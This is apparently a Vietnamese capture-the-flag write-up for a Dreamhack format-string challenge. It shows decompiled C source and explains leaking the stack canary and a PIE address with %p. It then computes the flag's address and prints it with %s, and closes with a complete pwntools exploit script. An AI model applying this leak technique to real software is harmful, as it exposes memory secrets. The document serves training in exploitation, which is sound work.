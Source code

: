 # Decription

[![](images/2025-08-09_02-34.png)](https://dreamhack.io/wargame/challenges/2089)

# Source

```c
int __fastcall __noreturn main(int argc, const char **argv, const char **envp)
{
  int v3; // [rsp+4h] [rbp-4Ch] BYREF
  __int64 v4; // [rsp+8h] [rbp-48h] BYREF
  char format[8]; // [rsp+10h] [rbp-40h] BYREF
  __int64 v6; // [rsp+18h] [rbp-38h]
  __int64 v7; // [rsp+20h] [rbp-30h]
  _QWORD v8[4]; // [rsp+30h] [rbp-20h] BYREF

  v8[3] = __readfsqword(0x28u);
  v3 = 0;
  v4 = 0LL;
  *(_QWORD *)format = 0LL;
  v6 = 0LL;
  v7 = 0LL;
  memset(v8, 0, 24);
  setvbuf(stdin, 0LL, 2, 0LL);
  setvbuf(_bss_start, 0LL, 2, 0LL);
  setvbuf(stderr, 0LL, 2, 0LL);
  initial();
  puts("Welcome to format string lab!");
  while ( 1 )
  {
    print_menu();
    __isoc99_scanf("%d", &v3);
    printf("Input format string : ");
    __isoc99_scanf("%20s", format);
    if ( v3 == 1 )
    {
      printf("Input integer : ");
      __isoc99_scanf("%llu", &v4);
      printf(format, v4);
    }
    else if ( v3 == 2 )
    {
      printf("Input string: ");
      __isoc99_scanf("%20s", v8);
      printf(format, v8);
    }
    else
    {
      puts("Invalid input!");
    }
    putchar(10);
  }
}

int initial()
{
  FILE *stream; // [rsp+8h] [rbp-8h]

  stream = fopen("flag.txt", "rt");
  if ( !stream )
  {
    puts("[!] Flag file error. Please ask to Rootsquare...");
    exit(1);
  }
  __isoc99_fscanf(stream, "%s", &flag);
  return fclose(stream);
}

int print_menu()
{
  puts("1. Integer");
  puts("2. String");
  return printf("> ");
}
```

# Problem

Nhìn trong code dễ thấy có lỗi format-string.

Có đến 2 chỗ là lỗi format-string -> Khả năng là leak 2 địa chỉ nào đó.

CÙng dùng gdb để xem chi tiết hơn nào.

# Solve

GDB:

checksec

![](images/checksec.png)

Hmm. GDB báo về cho tôi là không có canary nhưng trong source code có check canary.

Để ý kỹ hơn thì canary có 4 phần tử và nó chỉ check cái cuối cùng -> Vẫn có canary.

![](images/canary.png)

Ta cũng thấy có hàm đọc flag vào biến flag nhưng không in nó ra -> flag có trên stack và ta có thể leak nó ra.

PIE bật nên chúng ta cần địa chỉ exe base.

Vậy chúng ta cần leak địa chỉ exe và tính exe base sau đó tính địa chỉ của flag.

exe_base = exe_leak - offset_base.
flag = exe_base + offset_flag.


Các offset thì ta tính trực tiếp trong gdb.

```c
sla(b'> ', b'1')
sla(b'string : ', b'%19$p')
sla(b'integer : ', b'1'*11)

leak = p.recvline().strip()
exe_leak = int(leak, 16)
log.info('Exe leak: '+ hex(exe_leak))
```
![](images/exeleak.png)

```c
flag = exe_leak + 11799
log.info('Flag leak: '+ hex(flag))
```

Vậy ta đã có địa chỉ của flag rồi. Dùng %s để in ra nội dung của địa chỉ đó -> done.
```c
sla(b'> ', b'1')
sla(b'string : ', b'%s')
sla(b'integer : ', str(flag).encode())
```

![](images/flag.png)

# Full script

```c
#!/usr/bin/env python3

from pwn import *

exe = ELF('main', checksec=False)
# libc = ELF('', checksec=False)
context.binary = exe

info = lambda msg: log.info(msg)
s = lambda data, proc=None: proc.send(data) if proc else p.send(data)
sa = lambda msg, data, proc=None: proc.sendafter(msg, data) if proc else p.sendafter(msg, data)
sl = lambda data, proc=None: proc.sendline(data) if proc else p.sendline(data)
sla = lambda msg, data, proc=None: proc.p.sendlineafter(msg, data) if proc else p.sendlineafter(msg, data)
sn = lambda num, proc=None: proc.send(str(num).encode()) if proc else p.send(str(num).encode())
sna = lambda msg, num, proc=None: proc.sendafter(msg, str(num).encode()) if proc else p.sendafter(msg, str(num).encode())
sln = lambda num, proc=None: proc.sendline(str(num).encode()) if proc else p.sendline(str(num).encode())
slna = lambda msg, num, proc=None: proc.sendlineafter(msg, str(num).encode()) if proc else p.sendlineafter(msg, str(num).encode())
def GDB():
    if not args.REMOTE:
        gdb.attach(p, gdbscript='''
b* main+274
b* main+363
b* main+436
b* main+180

        c
        ''')
        input()


if args.REMOTE:
    p = remote('localhost', 5000)
else:
    p = process([exe.path])
GDB()

sla(b'> ', b'2')
sla(b'string : ', b'%15$p')
sla(b'string: ', b'a'*20)

leak = p.recvline().strip()
canary_leak = int(leak, 16)
log.info('Canary leak: '+ hex(canary_leak))


sla(b'> ', b'1')
sla(b'string : ', b'%19$p')
sla(b'integer : ', b'1'*11)

leak = p.recvline().strip()
exe_leak = int(leak, 16)
log.info('Exe leak: '+ hex(exe_leak))

flag = exe_leak + 11799
log.info('Flag leak: '+ hex(flag))

sla(b'> ', b'1')
sla(b'string : ', b'%s')
sla(b'integer : ', str(flag).encode())

p.interactive()
```
